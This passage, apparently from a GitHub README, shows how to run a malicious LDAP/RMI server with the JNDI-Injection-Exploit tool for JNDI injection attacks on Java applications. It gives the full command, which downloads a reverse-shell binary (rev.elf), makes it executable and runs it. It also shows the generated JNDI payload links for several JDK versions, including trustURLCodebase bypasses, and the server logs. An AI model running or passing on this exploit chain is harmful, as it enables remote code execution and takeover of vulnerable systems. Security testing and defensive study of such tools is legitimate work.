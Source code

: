 ### Malicious LDAP (Terminal 1)

The malicious LDAP server takes an argument `-C "_command line_"' and creates Java byte code equivalent of:

```java
String[] cmd = new String[] { "/bin/bash", "-c", <command_line> };
Runtime.getRuntime().exec(cmd);
```

Then it creates LDAP and HTTP endpoint.
The LDAP endpoint is to be used in `jndi:ldap:` sent to the victim.

```
fc:10447> java -jar ./target/JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf"
       _ _   _ _____ _____      ______            _       _ _          _  ___ _
      | | \ | |  __ \_   _|    |  ____|          | |     (_) |        | |/ (_) |
      | |  \| | |  | || |______| |__  __  ___ __ | | ___  _| |_ ______| ' / _| |_
  _   | | . ` | |  | || |______|  __| \ \/ / '_ \| |/ _ \| | __|______|  < | | __|
 | |__| | |\  | |__| || |_     | |____ >  <| |_) | | (_) | | |_       | . \| | |_
  \____/|_| \_|_____/_____|    |______/_/\_\ .__/|_|\___/|_|\__|      |_|\_\_|\__|
                                           | |
                                           |_|               created by @welk1n
                                                             modified by @pimps

[HTTP_ADDR] >> 10.100.101.100
[RMI_ADDR] >> 10.100.101.100
[LDAP_ADDR] >> 10.100.101.100
[COMMAND] >> wget http://127.0.0.1:8081/rev.elf -O /tmp/rev.elf && chmod +x /tmp/rev.elf && /tmp/rev.elf
----------------------------JNDI Links----------------------------
Target environment(Build in JDK - (BYPASS WITH EL by @welk1n) whose trustURLCodebase is false and have Tomcat 8+ or SpringBoot 1.2.x+ in classpath):
rmi://10.100.101.100:1099/thvywc
Target environment(Build in JDK 1.5 whose trustURLCodebase is true):
rmi://10.100.101.100:1099/mx59um
ldap://10.100.101.100:1389/mx59um
Target environment(Build in JDK 1.8 whose trustURLCodebase is true):
rmi://10.100.101.100:1099/6qzeif
ldap://10.100.101.100:1389/6qzeif
Target environment(Build in JDK - (BYPASS WITH GROOVY by @orangetw) whose trustURLCodebase is false and have Tomcat 8+ and Groovy in classpath):
rmi://10.100.101.100:1099/tpmlzh
Target environment(Build in JDK 1.7 whose trustURLCodebase is true):
rmi://10.100.101.100:1099/rxkv1b
ldap://10.100.101.100:1389/rxkv1b
Target environment(Build in JDK 1.6 whose trustURLCodebase is true):
rmi://10.100.101.100:1099/7p5qra
ldap://10.100.101.100:1389/7p5qra

----------------------------Server Log----------------------------
2021-12-29 16:13:20 [JETTYSERVER]>> Listening on 10.100.101.100:8180
2021-12-29 16:13:20 [RMISERVER]  >> Listening on 10.100.101.100:1099
2021-12-29 16:13:20 [LDAPSERVER] >> Listening on 0.0.0.0:1389
```

